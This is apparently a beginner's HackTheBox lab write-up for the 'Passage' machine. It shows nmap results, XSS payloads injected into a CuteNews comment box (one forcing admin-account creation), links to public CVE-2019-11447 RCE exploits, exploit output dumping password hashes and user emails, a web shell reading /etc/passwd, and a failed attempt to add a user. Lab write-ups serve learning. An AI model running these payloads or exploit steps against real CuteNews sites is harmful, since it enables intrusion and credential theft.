 ```yaml
---
layout: post
title: HackTheBox Notes &mdash; Passage
---
```


This machine is currently active, and is my first attempt at HTB.  Its IP address is `10.10.10.206`.

After pinging it, I have run
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.206
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 18:37 EST
Nmap scan report for 10.10.10.206
Host is up (0.70s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.67 seconds
```

From this, we see that port `80` is open in http.  I edited `/etc/hosts` so that it now looks like this:
```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.206    passage

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

You can see where I have added `passage`; the machine we are trying to hack.

Now going into the web browser and typing `http://passage:80`, we get a website!  Horay!

This page is a news page.  The only news article here that is not in Latin is named
```
**Implemented Fail2Ban**
```

I click on this and this is the body:

```
Due to unusally large amounts of traffic, we have implementated Fail2Ban on our website. Let it be known that excessive access to our server will be met with a two minute ban on your IP Address. While we do not wish to lock out our legitimate users, this decision is necessary in order to ensure a safe viewing experience. Please proceed with caution as you browse through our extensive news selection. View & Comment 
```

There is a comments box.  My very first thought was SQL Injections, but then I was reminded of PHP, so I tried commenting something using PHP.  Nothing happened (though the comment did go through).  Then I tried JavaScript, as one of the comments wrote 
```html
<script>alert(5)</script>
```

However, after attempting to write
```html
<script>console.log("Test")</script>
```
The page broke, and I had to go back to the main page, at which point both comments previously there were gone.  I cannot recall what the first comment had said.  I have no idea why 

I also noted that the admin who posted this has the link to an email address: `nadav@passave.htb`.  This might, I think, come in handy with the other open port: `ssh`.

I came to a realisation: why can't I simply google what I want.  I searched `comments section exploit` but didn't find much.  However, after literally searching `cutenews exploit` and finding [this](https://www.exploit-db.com/exploits/10002), I tried the following:
```
[link=javascript://%0adocument.write('<script>alert(/xss/)</script>')]funny pictures[/link]
```

[link=javascript://%0adocument.write('<script>window.open("http://passage/index.php?regusername=a&regpassword=a&regnickname=a&regemail=a%40a.com&reglevel=1&action=adduser&mod=editusers","_self")</script>')]funny pictures[/link]

[Project options > Misc > Embedded Browser > Allow the embedded browser to run without a sandbox](https://hooya0011.tistory.com/84)

After trying a lot of those exploits, I appended my search with `git`, and found [this repo](https://github.com/CRFSlick/CVE-2019-11447-POC), which I cloned.  I then made a CuteNews account for Passage by putting `/CuteNews/` before `index.php`, and logged into CuteNews using this python script, and uploaded the evil image (`sad.gif`).  This gave me a reverse shell, but it wasn't quite what I wanted; every command I ran gave me a bunch of HTML.  I needed to find a similar exploit, but this one wasn't working.

I went back to my Google search and found [this](https://github.com/mt-code/CVE-2019-11447).  I ran this, which uploads a php shell file as my avatar.  After that was successful, I must admit I was a little lost: how do I now use this exploit?  I went back to my refined search once again and found [this](https://raw.githubusercontent.com/musyoka101/CuteNews_2.1.2_RCE_exploit/master/exploit.py) exploit script, which I then ran and put the URL in, as well as my user credentials, and voila&emdash;: a reverse shell!

```
┌──(kali㉿kali)-[~/testing]
└─$ python3 exploit.py                                                                                                                                                                             1 ⨯ 2 ⚙



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

Enter the URL> http://passage:80
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

================================================================

================================================================
Possible users
================================================================
kim@example.com
paul@passage.htb
sid@example.com
nadav@passage.htb
================================================================

Do You Have a valid credential: [yes] or [no] ==> yes

[*] Please enter the credentials below
    Username ==> Christopher Tatlock
    Password ==> W@ci5M%QS^Kr8x3ov7!7
[+] Login was successfull

================================================================
Sending Payload
================================================================
signature_key: fad251d607c5ac7ebd52ada5f4c48144-Christopher Tatlock
signature_dsi: 7d4328bd3891236ddce1cb524aeda03b
logged in user: Christopher Tatlock

============================
Dropping to a SHELL
============================

command >
```

I ran `ls /home/` and saw the users `nadav` (that admin we noted earlier) and `paul`; neat!  I recall that there is an `ssh` port open, so I try to make a user for myself (I have done this before; it is trivial for Linux users).  The only tricky thing is that this shell is very minimal and only has `stdout`, I believe.  To get around this, I might show everything as stdout by
```bash
<cmd> 2>&1
```

```bash
command > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```

We see `paul` and `nadav` down there, as users already, but we do not have access to the password.  We try to add our own user:
```bash
command > sudo useradd christopher 2>&1
sudo: no tty present and no askpass program specified
```
But it does not register our terminal very well (as the shell is minimal/bad).

---

One big take-home message from this&emdash; my first HTB task&emdash; is: just Google!  Unless you think you have a great idea what to try, if you are only starting out